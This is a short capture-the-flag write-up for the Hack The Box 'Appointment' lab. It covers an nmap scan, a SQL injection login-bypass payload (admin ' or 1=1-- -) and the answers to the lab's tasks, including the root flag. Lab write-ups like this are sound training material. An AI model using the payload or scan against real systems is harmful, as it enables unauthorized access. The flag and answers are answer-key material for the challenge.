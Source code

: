 ```yaml
---
layout: single
title: Appointment - Hack The Box
excerpt: "In this machine, we are exploiting an SQL Injection in the login panel."
date: 2025-03-10
classes: wide
header:
  teaser: /img2/appointment.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - SQL Injection
---
```



![](/img2/Pasted%20image%2020250310105353.png)

## Introduction

> In this machine, we are exploiting an SQL Injection in the login panel.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.242.134
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.242.134
```

![](/img2/Pasted%20image%2020250310105700.png)

## Exploitation

![](/img2/Pasted%20image%2020250310105830.png)

Password --> admin ' or 1=1-- -

SQL query example:

```sql
select flag from users
where user=='admin' and password=='admin' or 1=1-- -'
```

## Tasks

1. What does the acronym SQL stand for?
> Structured Query Language

2. What is one of the most common type of SQL vulnerabilities?
> sql injection

3. What is the 2021 OWASP Top 10 classification for this vulnerability?
> A03:2021-Injection

4. What does Nmap report as the service and version that are running on port 80 of the target?
> Apache httpd 2.4.38 ((Debian))

5. What is the standard port used for the HTTPS protocol?
> 443 

6. What is a folder called in web-application terminology?
> directory

7. What is the HTTP response code is given for 'Not Found' errors?
> 404

8. Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?
> dir

9. What single character can be used to comment out the rest of a line in MySQL?
> #

10. If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?
> congratulations

11. Submit root flag
> e3d0796d002a446c0e622226f42e9672

![](/img2/Pasted%20image%2020250310110919.png)
